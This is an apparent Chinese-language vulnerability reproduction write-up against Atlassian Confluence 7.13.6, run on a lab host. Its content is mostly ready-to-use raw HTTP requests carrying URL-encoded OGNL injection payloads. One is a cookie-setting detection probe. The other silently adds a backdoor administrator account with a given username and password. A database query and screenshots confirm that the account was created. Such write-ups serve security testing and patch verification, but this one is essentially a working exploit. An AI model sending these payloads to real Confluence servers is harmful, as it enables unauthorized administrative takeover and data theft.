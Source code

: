 # 0x04 漏洞复现
## 4.1 Atlassian Confluence7.13.6
### 1、无损检测

```
GET /%24%7B%40com.atlassian.confluence.util.GeneralUtil@setCookie(%22key%22,%22aaaaaaaa%22)%7D/ HTTP/1.1
Host: 192.168.50.227:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Length: 0


```

![image](https://user-images.githubusercontent.com/84888757/172954720-9d2d9190-3e80-4d6d-9cee-b9614a247dfa.png)

### 2、添加管理员用户

用户名`reidmu`，密码`reidmu@1234`
```
GET /%24%7B%23this.getUserAccessor().addUser('reidmu'%2C'reidmu%401234'%2C'reid%40reidmu.com'%2C'ReidMu'%2C%40com.atlassian.confluence.util.GeneralUtil%40splitCommaDelimitedString(%22confluence-administrators%2Cconfluence-users%22))%7D/ HTTP/1.1
Host: 192.168.50.227:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Length: 0


```

![image](https://user-images.githubusercontent.com/84888757/172954985-7f2946fc-96d8-478a-8eb9-b878e6bb7e43.png)

成功登录，数据库中已经成功添加管理员用户，数据库查询命令：
```
select u.id,u.user_name,u.active,u.credential from cwd_user u  join cwd_membership m on u.id=m.child_user_id join cwd_group g on m.parent_id=g.id join cwd_directory d on d.id=g.directory_id where g.group_name = 'confluence-administrators' and d.directory_name='Confluence Internal Directory';
```

![image](https://user-images.githubusercontent.com/84888757/172955044-e28509de-9b16-4f85-b1f4-b272408b67f6.png)
